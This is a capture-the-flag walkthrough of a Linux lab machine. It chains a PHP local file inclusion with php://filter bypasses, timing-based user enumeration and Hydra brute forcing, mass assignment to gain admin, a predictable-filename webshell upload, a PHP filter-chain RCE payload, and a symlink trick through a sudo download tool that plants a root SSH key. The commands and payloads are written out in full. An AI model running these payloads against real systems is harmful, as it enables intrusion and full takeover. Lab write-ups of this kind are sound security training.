




Exploitation Summary
The target exposed a PHP web application on port 80 with a login page. Directory fuzzing revealed
an image.php endpoint that accepted a file path via the img query
parameter — effectively an LFI vulnerability. Path traversal was blocked by a filter, but the
restriction was bypassed using php://filter wrappers with an absolute path,
allowing arbitrary file reads.
Reading the application's source files through LFI revealed credentials stored in
db_conn.php, a timing-based username enumeration flaw in
login.php, and a mass assignment vulnerability in the profile update logic.
By injecting role=1 into the profile update request, admin access was obtained,
unlocking a file upload endpoint.
The upload handler was reverse-engineered to predict the output filename — it used a hardcoded
string literal instead of a variable in the hash, making the resulting filename fully
reproducible from the HTTP response's Date header. A PHP webshell was uploaded
with a .jpg extension and then executed via the LFI endpoint, achieving remote
code execution as www-data. Outbound connections were firewalled, so a simple
curl-based command wrapper was used to interact with the system.
A backup archive at /opt/source-files-backup.zip contained a .git
directory. Inspecting the commit history revealed a previous database password in an older
version of db_conn.php. This password worked for SSH access as
aaron.
Privilege escalation was achieved through a sudo permission on
/usr/bin/netutils, a script wrapping a Java application that could download files
over HTTP as root. A symlink was created in Aaron's home directory pointing
authorized_keys to /root/.ssh/authorized_keys. Serving a crafted
authorized_keys file from an HTTP server and triggering the download through
netutils caused root to write the attacker's public SSH key into its own
authorized_keys file, granting direct SSH access as root.
Reconnaissance
Starting with an nmap scan to identify open ports and running services:
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.5
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
| http-title: Simple WebApp
|_ Requested resource was ./login.phpOnly two ports are open: SSH on 22 and an Apache HTTP server on 80. WhatWeb provides a bit more context about the web stack:
http://10.129.2.206/login.php [200 OK] Apache[2.4.29], Bootstrap,
Email[dkstudioin@gmail.com], PHP, jQuery, Title[Simple WebApp]The important takeaway here is that the application is PHP-based and running on Apache — both will be relevant later.
Web Enumeration
The site initially only shows a login form. Fuzzing with gobuster reveals the following paths:
images (Status: 301)
css (Status: 301)
upload.php (Status: 302) --> ./login.php
image.php (Status: 200) [Size: 0]
profile.php (Status: 302) --> ./login.php
index.php (Status: 302) --> ./login.php
logout.php (Status: 302) --> ./login.php
js (Status: 301)
header.php (Status: 302) --> ./login.php
footer.php (Status: 200) [Size: 3937]
server-status (Status: 403)
db_conn.php (Status: 200) [Size: 0]Most endpoints redirect to login.php, but image.php stands out — it
returns a 200 with an empty body, suggesting it might load content based on query
parameters. Since the app is PHP-based, it's likely using include() or similar to
serve image data.
To confirm this, I fuzz for valid parameter names using a known image that exists on the server
(images/user-icon.png) as the reference value, filtering out empty responses:
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt \
-u "http://10.129.2.206/image.php?FUZZ=images/user-icon.png" --hh 0000002803: 200 213 L 1501 W 36611 Ch "img"The img parameter loads image data successfully:

Importantly, when I pass a PHP file like login.php as the value, the page renders its
HTML output rather than its source code — meaning the server is doing an include(),
not just a file read. This is a classic Local File Inclusion (LFI) vulnerability.
LFI — Filter Bypass and File Disclosure
Attempting a standard path traversal is blocked immediately:
http://10.129.1.80/image.php?img=../../../../../etc/hostname
→ Hacking attempt detected!Double URL encoding the slashes (%252F) doesn't work either — the server either
decodes it before the check or the filter is smart enough to catch it.
However, using php://filter with an absolute path sidesteps the filter entirely, since
there are no ../ sequences involved:
curl "http://10.129.1.80/image.php?img=php://filter/convert.base64-encode/resource=/etc/hostname"dGltaW5nCg==echo "dGltaW5nCg==" | base64 -d
# timingThere's also a trick with non-existent filter names — PHP silently ignores unknown filters and still resolves the resource, so the content comes back unencoded and in plain text (though this doesn't always work depending on the content type):
http://10.129.1.80/image.php?img=php://filter/convert.base64-xd/resource=/etc/hostname
# timingFrom /etc/passwd, I identify a user named aaron. Reading the Apache
default site config confirms the document root and log paths:
view-source:http://10.129.1.80/image.php?img=php://filter/convert.base64-xd/resource=/etc/apache2/sites-available/000-default.confDocumentRoot /var/www/html
ErrorLog ${APACHE_LOG_DIR}/error.log
CustomLog ${APACHE_LOG_DIR}/access.log combinedFor PHP files, the non-existent filter trick doesn't work reliably since the PHP code gets executed
rather than returned as text. The base64 filter is the right approach here — pipe through
base64 -d locally to read the source:
curl "http://10.129.1.80/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/db_conn.php" | base64 -d<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', '4_V3Ry_l0000n9_p422w0rd');
Database credentials found. Now reading login.php to understand the application
logic:
curl "http://10.129.1.80/image.php?img=php://filter/convert.base64-encode/resource=/var/www/html/login.php" | base64 -d<?php
function createTimeChannel()
{
sleep(1);
}
if (isset($_GET['login'])) {
$username = $_POST['user'];
$password = $_POST['password'];
$statement = $pdo->prepare("SELECT * FROM users WHERE username = :username");
$result = $statement->execute(array('username' => $username));
$user = $statement->fetch();
if ($user !== false) {
createTimeChannel(); // 1-second delay only when user exists
if (password_verify($password, $user['password'])) {
$_SESSION['userid'] = $user['id'];
$_SESSION['role'] = $user['role'];
header('Location: ./index.php');
return;
}
}
$errorMessage = "Invalid username or password entered";
}
The createTimeChannel() function introduces a 1-second delay, but only when the queried
username exists in the database. If the user doesn't exist, the response is immediate. This is a
textbook timing side-channel: valid usernames take ~1 second to respond, invalid ones respond
instantly.
Testing with known candidate usernames confirms that both admin and aaron
exist. Running Hydra against both while also testing manually:
hydra -L <(echo -e "aaron\nadmin") \
-P /usr/share/wordlists/rockyou.txt \
10.129.1.80 http-post-form \
"/login.php?login=true:user=^USER^&password=^PASS^:F=Invalid" \
-t 64The credentials aaron / aaron work. Logging in reveals the application
interface.
Mass Assignment — Escalating to Admin

After logging in, there's a profile page where the user can update their details:

The profile update is processed by profile_update.php. Reading its source via the LFI
reveals something interesting — the role field is processed directly from POST data
without any authorisation check:
if (isset($_POST['role'])) {
$role = $_POST['role'];
$_SESSION['role'] = $role;
}Classic mass assignment — the server blindly assigns any user-supplied role value to
the session. Intercepting the profile update request and appending &role=1 to the POST
body is all it takes:
firstName=test&lastName=test&email=test&company=test&role=1The session is now set to role 1 (admin), which unlocks a new endpoint:
/avatar_uploader.php.
File Upload — Reverse Engineering the Filename
The avatar uploader calls upload.php. Reading its source via LFI:
<?php
include("admin_auth_check.php");
$upload_dir = "images/uploads/";
if (!file_exists($upload_dir)) {
mkdir($upload_dir, 0777, true);
}
$file_hash = uniqid();
$file_name = md5('$file_hash' . time()) . '_' . basename($_FILES["fileToUpload"]["name"]);
$target_file = $upload_dir . $file_name;
$imageFileType = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));
if (isset($_POST["submit"])) {
$check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
if ($check === false) {
$error = "Invalid file";
}
}
if ($imageFileType != "jpg") {
$error = "This extension is not allowed.";
}
if (empty($error)) {
if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
echo "The file has been uploaded.";
}
}
Two things stand out. First, uploads are restricted to .jpg extension. Second — and
critically — the filename generation has a bug:
$file_hash = uniqid();
$file_name = md5('$file_hash' . time()) . ...Notice that '$file_hash' is in single quotes — it's a string literal, not a variable
interpolation. PHP does not expand variables inside single-quoted strings, so $file_hash
is literally the string $file_hash, not the result of uniqid(). This
means the hash is entirely deterministic: md5("$file_hash" . time()), where
time() is the only unknown — and that can be read directly from the HTTP response's
Date header.
The restriction to .jpg is not a problem either, because the LFI endpoint
include()s whatever file path is given — PHP code embedded in a
.jpg file will still execute when included.
The plan: upload a PHP webshell with a .jpg extension and then trigger it through the
LFI. To do this, I need to predict the resulting filename.
After uploading a test file, the HTTP response contains the server time in the Date
header. I convert it to a Unix timestamp using PHP's interactive shell:
php --interactivephp > echo strtotime("Wed, 18 Feb 2026 17:36:06 GMT");
1771436166
php > echo md5('$file_hash' . strtotime("Wed, 18 Feb 2026 17:36:06 GMT")) . '_xd.jpg';
29f34b4751ffc1f6b4b7071dc9b636ff_xd.jpgConfirming the webshell executes via the LFI:
curl "http://10.129.1.80/image.php?cmd=id&img=php://filter/convert.base64-xd/resource=/var/www/html/images/uploads/29f34b4751ffc1f6b4b7071dc9b636ff_xd.jpg"uid=33(www-data) gid=33(www-data) groups=33(www-data)RCE confirmed. Attempting reverse shells (both standard bash and busybox netcat) produces no connection — outbound traffic appears to be blocked by a firewall. Since I can't get a callback, I'll work with a simple curl-based command wrapper instead:
#!/bin/bash
# command.sh — sends a command to the webshell and prints the output
curl -G "http://10.129.1.80/image.php" \
--data-urlencode "cmd=$1" \
--data-urlencode "img=php://filter/convert.base64-xd/resource=/var/www/html/images/uploads/29f34b4751ffc1f6b4b7071dc9b636ff_xd.jpg"For a proper interactive shell without outbound connections, a forward shell like IppSec's would be the ideal tool here — it simulates a shell session entirely over inbound HTTP requests.
LFI via PHP Filter Chains (Unintended Path)
It's worth noting that this machine — released in December 2021 — is also vulnerable to an unintended exploitation path: PHP filter chain RCE. This technique was published by loknop on 30 December 2021 in this gist, and later automated by Synacktiv in their php_filter_chain_generator tool.
The technique abuses PHP's php://filter wrappers to chain multiple encoding
conversions in sequence, constructing an arbitrary string from nothing — effectively synthesising
PHP code without writing any file. When the resulting chain is passed to an include()
call, the generated code gets executed:
python3 php_filter_chain_generator --chain '<?php echo shell_exec($_GET["cmd"]);?>'[+] The following gadget chain will generate the following code :
<?php echo shell_exec($_GET["cmd"]);?>
(base64 value: PD9waHAgZWNobyBzaGVsbF9leGVjKCRfR0VUWyJjbWQiXSk7Pz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF(...)

This would give immediate RCE through the LFI alone, without needing to touch the file upload at all. However, since it's an unintended path, the rest of this walkthrough follows the intended route.
Git History — Credential Discovery
Browsing the filesystem with the command wrapper reveals an interesting file in
/opt:
./command.sh "ls -lah /opt"total 624K
drwxr-xr-x 2 root root 4.0K Dec 2 2021 .
drwxr-xr-x 24 root root 4.0K Nov 29 2021 ..
-rw-r--r-- 1 root root 614K Jul 20 2021 source-files-backup.zipDownloading it via the LFI (the php://filter trick also works for binary files):
curl "http://10.129.1.80/image.php?cmd=id&img=php://filter/convert.base64-xd/resource=/opt/source-files-backup.zip" \
--output source-files.zipExtracting the archive reveals a backup/ folder containing a .git
directory. Checking the commit history:
git log --onelineThere are two commits — the initial one and one other. Diffing the non-initial commit against the
first reveals a changed password in db_conn.php:
<?php
$pdo = new PDO('mysql:host=localhost;dbname=app', 'root', 'S3cr3t_unGu3ss4bl3_p422w0Rd');
The current db_conn.php on the live server uses a different (weaker) password, but this
older one might have been reused elsewhere. Testing it for SSH as aaron:
ssh aaron@10.129.1.80Credentials aaron:S3cr3t_unGu3ss4bl3_p422w0Rd work. User flag obtained.
Privilege Escalation — netutils Write-As-Root via Symlink
Checking sudo permissions for aaron:
sudo -lUser aaron may run the following commands on timing:
(ALL) NOPASSWD: /usr/bin/netutilsfile /usr/bin/netutils/usr/bin/netutils: Bourne-Again shell script, ASCII text executablecat /usr/bin/netutils#! /bin/bash
java -jar /root/netutils.jarThe script runs a Java JAR that lives in /root — not readable directly. Running it to
see what it does:
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] QuitTwo download options. Testing the FTP option first — setting up a quick FTP server with
pyftpdlib:
python3 -m pyftpdlib>>> starting FTP server on 0.0.0.0:2121, pid=15856 <<<
10.129.1.80:38518-[anonymous] RETR /home/.../xd.jpg completed=1 bytes=30The FTP option downloads the file, but nothing further happens with it — no visible output file is created.
The HTTP option behaves differently. When I point it at my HTTP server, it downloads the file and writes it to disk using the filename from the URL path:
Input >> 1
Enter Url: http://10.10.14.98
Initializing download: http://10.10.14.98
File size: 667 bytes
Opening output file default
Starting download
Downloaded 667 byte in 0 seconds. (6.50 KB/s)ls -la-rw-r--r-- 1 root root 667 Feb 18 18:19 defaultThe file is written as root, into the current working directory, with the filename
derived from the URL path. If I request http://10.10.14.98/asd.txt, it writes a file
called asd.txt. This is arbitrary file write as root — limited to the current
directory, but that's enough.
The exploit is a symlink attack. I create a symlink in Aaron's home directory with the name
authorized_keys pointing to /root/.ssh/authorized_keys. When
netutils writes a file named authorized_keys to the current directory, it
follows the symlink and writes to the real root SSH authorized keys file instead:
ln -s /root/.ssh/authorized_keys ~/authorized_keysOn my local machine I prepare a file named authorized_keys containing my SSH public
key, then serve it with a Python HTTP server:
python3 -m http.server 8000Now triggering the download via netutils:
Input >> 1
Enter Url: http://10.10.14.98:8000/authorized_keys
Initializing download: http://10.10.14.98:8000/authorized_keys
File size: 93 bytes
Opening output file authorized_keys
Starting download
Downloaded 93 byte in 0 seconds. (0.90 KB/s)10.129.1.80 - - "GET /authorized_keys HTTP/1.0" 200 -The download completes and netutils writes to ~/authorized_keys — which
resolves through the symlink to /root/.ssh/authorized_keys. My public key is now
authorised for root login:
ssh -i id_rsa root@10.129.1.80Root access confirmed. Root flag obtained.